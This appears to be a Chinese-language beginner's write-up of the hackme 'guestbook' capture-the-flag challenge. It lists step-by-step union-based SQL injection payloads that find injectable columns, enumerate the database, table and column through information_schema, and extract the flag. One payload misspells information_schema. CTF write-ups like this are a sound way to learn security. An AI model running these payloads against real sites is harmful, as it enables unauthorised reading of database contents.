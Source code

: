 ```yaml
---
title: 点滴记录sql（一）
---
```

此题出自hackme：guestbook
---
这题是一个最底层的sql注入问题，可对于刚刚接触的我来说，难度也是不小，主要还是一些代码

思想：这题首先进行注入点测试：
		URL+&id=-1 union select 1,2,3,4
		发现2，3，4可以为注入点，这里我选择2，此处有一个问题，就是将URL后面改为了read,我不是很理解
	然后获取数据库名:
		URL+&id=-1 union select 1,database(),3,4
		此处获取数据库名为g8
	再获取表名：
		URL+&id=-1 union select 1,(select TABLE_NAME from information_schema.TABLES where TABLE_SCHEMA="g8" limit 0,1),3,4
		此处获取到表名为flag
	接着获取列名：
		URL+&id=-1 union select 1,(select COLUMN_NAME from informaton_schema.COLUMNS where TABLE_NAME="flag" limit 1,1),3,4
		获取到列名为flag
	最后获取到flag:
		URL+&id=-1 union select 1,(select flag from flag limit 1,1),3,4
		得到flag
		
注:此处对于limit在哪一处取值不是很了解，目前只有随机试，详细了解的话得去仔细接触一下数据库